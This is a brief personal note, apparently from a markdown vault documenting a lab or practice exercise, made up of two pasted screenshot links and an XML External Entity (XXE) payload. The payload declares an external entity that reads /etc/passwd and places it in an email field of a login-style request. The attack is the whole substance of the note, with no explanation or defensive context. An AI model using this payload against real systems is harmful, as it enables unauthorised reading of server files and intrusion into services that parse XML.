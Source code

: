 ___

![[Pasted image 20241016103113.png]]

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY email SYSTEM "file:///etc/passwd">
]>
<root><email>&email;</email><password>test</password></root>
```

![[Pasted image 20241016103522.png]]